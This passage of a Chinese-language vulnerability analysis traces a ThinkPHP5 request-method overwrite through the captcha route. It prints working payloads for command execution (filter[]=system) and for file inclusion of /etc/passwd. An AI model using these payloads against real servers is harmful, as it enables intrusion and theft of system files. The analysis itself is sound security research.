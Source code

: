 ![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5iby1CibzqOJb7UaSicQYJE8U6gXOrxg6jrEyJHeD7EOaFrPmgD847tMsDMySv39icheic2otic7QzhuTg/640?wx_fmt=png)

因此分析 checkRoute 的上层利用链，在 Route::check() 方法中发现：

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5iby1CibzqOJb7UaSicQYJE8UCpXAb0dhOPu6cBRUyXBRSv4UIlnpunV1PeW05y5cVYCGSIxXjlGlzQ/640?wx_fmt=png)

该 $method 可以通过变量覆盖将其改变，因此需要寻找注册 $method 值的路由，ThinkPHP5 中自带的验证码组件 captcha 注册了一个 get 路由规则，路由到类的方法，满足 case 条件。这里可以知道 method=get 是为了正确获取 captcha 的路由规则。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5iby1CibzqOJb7UaSicQYJE8UuUjjf3kOINAn09A2jOzlfVBPyiaGOxSC2aOsSLd6BZCvhmiav0u6ib0Tg/640?wx_fmt=png)

因此可以构造相应 payload

```
POST /index.php?s=captcha&_method=__construct&method=get&filter[]=system&get[]=ipconfig
```

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5iby1CibzqOJb7UaSicQYJE8UHW2CBKBrthgBibRhicIQxR85W3kMn2INb669iam6qdZr9gYNjEPdBpmzQ/640?wx_fmt=png)

>>>>

任意文件包含

根据以上分析，在该版本 ThinkPHP 中还存在任意文件包含，在 thinkphp\library\think\Loader.php 中存在__include_file 方法：

```
namespace think;
...
function __include_file($file)
{
    return include $file;
}
```

可以通过回调函数 call_user_func 调用 think\__include_file，可以构造相应 payload

```
POST /index.php?s=captcha 
_method=__construct&method=GET&filter[]=think\__include_file&server[REQUEST_METHOD]==/etc/passwd
```

注意调用该方法时会进入 Request.php 中的 param 方法：

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5iby1CibzqOJb7UaSicQYJE8UPTH00gNJycPCoYh2U8WpWgZwn1rZJVF8u4EtkVgLTXaZsyz2aiaOBJQ/640?wx_fmt=png)

 method 方法本来是 false 默认参数，现在参数为 true，我们跟进看一下其逻辑:

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5iby1CibzqOJb7UaSicQYJE8Uiaka7IoGtuhGQ1Uk73v91JBBMp8fyictUWMzvmUibsicsMFa6nHOv7SDww/640?wx_fmt=png)

直接进入第一个 if 语句中，调用关键方法 server()，在不妨跟进:

```
public function server($name = '', $default = null, $filter = '')
{
        if (empty($this->server)) {
            $this->server = $_SERVER;
        }
        if (is_array($name)) {
            return $this->server = array_merge($this->server, $name);
        }
        return $this->input($this->server, false === $name ? false : strtoupper($name), $default, $filter);
    }
```
